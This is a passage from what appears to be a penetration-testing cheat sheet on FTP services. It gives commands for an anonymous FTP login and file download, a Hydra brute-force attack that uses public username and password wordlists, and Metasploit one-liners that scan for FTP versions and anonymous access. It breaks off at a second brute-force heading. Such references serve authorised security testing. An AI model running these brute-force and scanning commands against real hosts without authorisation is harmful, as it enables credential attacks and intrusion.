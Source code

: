 ```bash
> anonymous
```

{% hint style="info" %}
FTP Mode
{% endhint %}

```bash
passive
```

{% hint style="info" %}
Download File
{% endhint %}

```bash
get file.txt
```

#### [Hydra](https://github.com/vanhauser-thc/thc-hydra)

{% hint style="info" %}
Brute Force
{% endhint %}

```bash
hydra -V \
      -L /usr/share/seclists/Usernames/sap-default-usernames.txt \
      -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt ftp://$TARGET:21
```

#### [Metasploit](https://www.metasploit.com/)

{% hint style="info" %}
Recon Version
{% endhint %}

```bash
msfconsole -qx "
    use auxiliary/scanner/ftp/ftp_version;
    set RHOSTS $WEBSITE;
    run;
    exit"
```

{% hint style="info" %}
Anonymous Login
{% endhint %}

```bash
msfconsole -qx "
    use auxiliary/scanner/ftp/anonymous;
    set RHOSTS $WEBSITE;
    run;
    exit"
```

{% hint style="info" %}
Brute Force
{% endhint %}
